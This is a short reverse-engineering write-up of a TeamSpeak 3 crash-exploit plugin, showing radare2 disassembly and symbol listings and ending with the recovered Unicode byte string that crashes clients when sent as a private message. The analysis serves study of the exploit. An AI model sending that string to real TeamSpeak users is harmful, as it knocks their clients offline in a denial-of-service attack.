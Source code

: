 R4P3 TS3 Crash Analysis
-------

by th0razine | <th0razine@protonmail.ch>

A few days prior, the developers/reverse engineers released a crash exploit and mitigation on their forums. I decided to reverse it to see what exactly was going on. The first step was to download the TS3 plugin package. Quickly running `file` on the file reveals that the TS3 plugin package container is simply a .zip file. Extracting the files reveals two .dll files, each for a specific arch (i686 and x86_64). Let's try opening it up in radare2.
```
[0x180001a84]> pdf @ entry0

/ (fcn) entry0 61
|          ;-- entry0:
|          0x180001a84    48895c2408     mov qword [rsp + 8], rbx       ; [0x8:8]=0xffff00000004
|          0x180001a89    4889742410     mov qword [rsp + 0x10], rsi    ; [0x10:8]=184
|          0x180001a8e    57             push rdi
|          0x180001a8f    4883ec20       sub rsp, 0x20
|          0x180001a93    498bf8         mov rdi, r8
|          0x180001a96    8bda           mov ebx, edx
|          0x180001a98    488bf1         mov rsi, rcx
|          0x180001a9b    83fa01         cmp edx, 1
|      ,=< 0x180001a9e    7505           jne 0x180001aa5
|      |   0x180001aa0    e897060000     call fcn.18000213c
|      |     ^- fcn.18000213c()
|      |   ; JMP XREF from 0x180001a9e (entry0)
|      `-> 0x180001aa5    4c8bc7         mov r8, rdi
|          0x180001aa8    8bd3           mov edx, ebx
|          0x180001aaa    488bce         mov rcx, rsi
|          0x180001aad    488b5c2430     mov rbx, qword [rsp + 0x30]    ; [0x30:8]=0 ; '0'
|          0x180001ab2    488b742438     mov rsi, qword [rsp + 0x38]    ; [0x38:8]=0x10800000000  ; '8'
|          0x180001ab7    4883c420       add rsp, 0x20
|          0x180001abb    5f             pop rdi
\          0x180001abc    e953feffff     jmp 0x180001914
[0x180001a84]> 
```

Nothing too interesting here. Let's see if we can get anything useful from rabin2.

```
$ rabin2 -s R4P3_Crasher_3_0_19_win64.dll
[Symbols]
vaddr=0x00001260 paddr=0x00000660 ord=000 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_apiVersion
vaddr=0x00001270 paddr=0x00000670 ord=001 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_author
vaddr=0x00001290 paddr=0x00000690 ord=002 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_commandKeyword
vaddr=0x00001280 paddr=0x00000680 ord=003 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_description
vaddr=0x00001670 paddr=0x00000a70 ord=004 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_freeMemory
vaddr=0x000012a0 paddr=0x000006a0 ord=005 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_init
vaddr=0x00001330 paddr=0x00000730 ord=006 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_initMenus
vaddr=0x00001240 paddr=0x00000640 ord=007 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_name
vaddr=0x000013b0 paddr=0x000007b0 ord=008 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_onMenuItemEvent
vaddr=0x00001550 paddr=0x00000950 ord=009 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_onTextMessageEvent
vaddr=0x000011f0 paddr=0x000005f0 ord=010 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_registerPluginID
vaddr=0x00001320 paddr=0x00000720 ord=011 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_requestAutoload
vaddr=0x000012b0 paddr=0x000006b0 ord=012 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_setFunctionPointers
vaddr=0x00001620 paddr=0x00000a20 ord=013 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_shutdown
vaddr=0x00001250 paddr=0x00000650 ord=014 fwd=NONE sz=0 bind=NONE type=FUNC name=Crash3019.dll_ts3plugin_version
```

Now we're getting somewhere. Refer to the following image.
![R4P3 Crash Screenshot]
(https://i.imgur.com/W3XbFQg.png)

It seems like what we want is in `Crash3019.dll_ts3plugin_onMenuItemEvent`

```
[0x180001a84]> pd 32 @ sym.Crash3019.dll_ts3plugin_onMenuItemEvent
            ;-- sym.Crash3019.dll_ts3plugin_onMenuItemEvent:
            0x1800013b0    48895c2418     mov qword [rsp + 0x18], rbx   ; [0x18:8]=64
            0x1800013b5    56             push rsi
            0x1800013b6    4881ec700100.  sub rsp, 0x170
            0x1800013bd    488b053c9c01.  mov rax, qword [rip + 0x19c3c]  ; [0x18001b000:8]=0x2b992ddfa232  ; "2..-.+" @ 0x18001b000
            0x1800013c4    4833c4         xor rax, rsp
            0x1800013c7    488984246001.  mov qword [rsp + 0x160], rax  ; [0x160:8]=0x160000200000000
            0x1800013cf    498bd9         mov rbx, r9
            0x1800013d2    488bf1         mov rsi, rcx
            0x1800013d5    83ea01         sub edx, 1
        ,=< 0x1800013d8    743c           je 0x180001416
        |   0x1800013da    83fa01         cmp edx, 1
       ,==< 0x1800013dd    0f8546010000   jne 0x180001529
       ||   0x1800013e3    443bc2         cmp r8d, edx
      ,===< 0x1800013e6    752e           jne 0x180001416
      |||   0x1800013e8    4533c9         xor r9d, r9d
      |||   0x1800013eb    488d15767a01.  lea rdx, [rip + 0x17a76]      ; 0x180018e68
      |||   0x1800013f2    440fb7c3       movzx r8d, bx
      |||   0x1800013f6    ff15c4b80100   call qword [rip + 0x1b8c4] ;unk() ; section_end..reloc
      |||   0x1800013fc    85c0           test eax, eax
     ,====< 0x1800013fe    0f8425010000   je 0x180001529
     ||||   0x180001404    488d0d957901.  lea rcx, [rip + 0x17995]      ; 0x180018da0 ; str._n_b__R4P3.NET___b___color_red__b__ERROR___b___color____Unable_to_send_Private_Message_to_user__n ; str._n_b__R4P3.NET___b___color_red__b__ERROR___b___color____Unable_to_send_Private_Message_to_user__n
     ||||   0x18000140b    ff15c7bc0100   call qword [rip + 0x1bcc7] ;unk() ; section_end..reloc
    ,=====< 0x180001411    e913010000     jmp 0x180001529
    ||`-`-> 0x180001416    4183f802       cmp r8d, 2
   ,======< 0x18000141a    0f8509010000   jne 0x180001529
   ||| |    0x180001420    488d542420     lea rdx, [rsp + 0x20]         ; 0x20
   ||| |    0x180001425    ff152db90100   call qword [rip + 0x1b92d] ;unk() ; section_end..reloc
   ||| |    0x18000142b    0fb7542420     movzx edx, word [rsp + 0x20]  ; [0x20:2]=0
   ||| |    0x180001430    4c8d442430     lea r8, [rsp + 0x30]          ; 0x30  ; '0'
   ||| |    0x180001435    488bce         mov rcx, rsi
   ||| |    0x180001438    ff156ab90100   call qword [rip + 0x1b96a] ;unk() ; section_end..reloc
   ||| |    0x18000143e    4c8b442430     mov r8, qword [rsp + 0x30]    ; [0x30:8]=0 ; '0'
[0x180001a84]> ps @ 0x180018e68
\xe1\x97\xaa
\xe0\xbc\xbf
[0x180001a84]> ps @ 0x2b992ddfa232
\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff
```

The 'string' at  0x2b992ddfa232 is obviously some type of padding. I'm not too keen as to why this padding exists, but it could be leftover code from the devs attempting a remote code execution.

The string at 0x180018e68, however, seems to be the culprit for the crash. We can determine the string via Python.

```
$ python -c "print '\xe1\x97\xaa\xe0\xbc\xbf'"
ᗪ༿
```
And there we go. We've successfully reverse engineered the exploit in order to get the string causing the crash. Simple enough, though the existence of padding may be evidence as to trying to make this more than a simple DoS.

th0razine | <th0razine@protonmail.ch>


